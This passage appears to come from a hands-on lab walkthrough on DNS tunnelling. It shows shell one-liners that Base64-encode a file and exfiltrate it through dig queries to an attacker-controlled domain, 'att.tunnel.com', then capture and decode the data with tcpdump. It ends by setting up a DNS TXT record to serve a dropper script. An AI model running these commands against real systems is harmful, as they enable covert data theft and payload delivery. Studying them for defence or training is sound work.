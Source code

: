 In order to receive any DNS request, we need to capture the network traffic for any incoming UDP/53 packets using the `tcpdump` tool
```bash
sudo tcpdump -i eth0 udp port 53 -v
```
Once our machine is ready, we can move to the target's machine. In order to send the content of a file, we need to convert it into a string representation which could be done using any encoding representation such as Base64, Hex, Binary, etc. 
```bash
cat credit.txt | base64
```
Now that we have the Base64 representation, we need to split it into one or multiple DNS requests depending on the output's length and attach it as a subdomain name. 
For splitting into multiple DNS requests
```bash
cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed -r 's/.*/&.att.tunnel.com/' | awk '{print "dig +short " $1}' | bash
```
In this command, we read the file's content, encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "att.tunnel.com" for every group. And we added the dig command to send it over the DNS, and finally, we passed it to the bash to be executed.
The other way where we send a single DNS request, which we will be using for our data exfiltration. This time, we split every 18 characters with a `.` and add the name server similar to what we did in the previous command.
```bash
cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com
```
Next, we send the base64 data as subdomain name with considering the DNS limitation as follows
```bash
cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```
With some adjustments to the single DNS request, we added the dig command to send it over the DNS, and finally, we passed it to the bash to be executed. If we check our `tcpdump` terminal, we should receive the data we sent from our target
```bash
sudo tcpdump -i eth0 udp port 53 -v
```
Once our DNS request is received, we can stop the `tcpdump` tool and clean the received data by removing unwanted strings, and finally decode back the data using Base64
```bash
echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
We can also clean the output of the multi DNS request technique
```bash
sed '1~2d' tcpd | cut -d ' ' -f 11 | cut -d '.' -f 1 | uniq | tr -d '\n' | base64 -d
```

---

C2 frameworks use the DNS protocol for communication, such as sending a command execution request and receiving execution results over the DNS protocol. They also use the TXT DNS record to run a dropper to download extra files on a victim machine. We will need to add a `TXT` DNS record to the `tunnel.com` domain name.
Let's say we have a script that needs to be executed in a target machine. First, we need to encode the script as a base64 representation and then create a TXT DNS record of the domain name we control with the content of the encoded script. The following is an example of the required script that needs to be added to the domain name:
```bash
#!/bin/bash
ping -c 1 test.tunnel.com
```
Now we need to have the base64 representation of our script, we add it as a TXT DNS record to the domain we control.